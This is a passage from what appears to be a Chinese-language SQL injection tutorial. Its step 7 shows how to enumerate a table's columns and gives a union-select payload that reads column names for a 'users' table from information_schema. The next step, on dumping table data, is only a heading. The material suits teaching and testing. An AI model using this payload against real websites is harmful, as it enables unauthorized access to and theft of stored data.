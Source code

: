 ![images](/images/2019-03-30/sql28.png) <br>

-----




### <span id = "ziduan">7. 查看当前表中的所有字段</span>

知道表名后就可以查表中的所有字段了，<br>

Payload： <br>

```sql
1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users') #
```

![images](/images/2019-03-30/sql17.png) <br>

-----

### <span id = "shuju">8. 查看当前表中的所有数据</span>

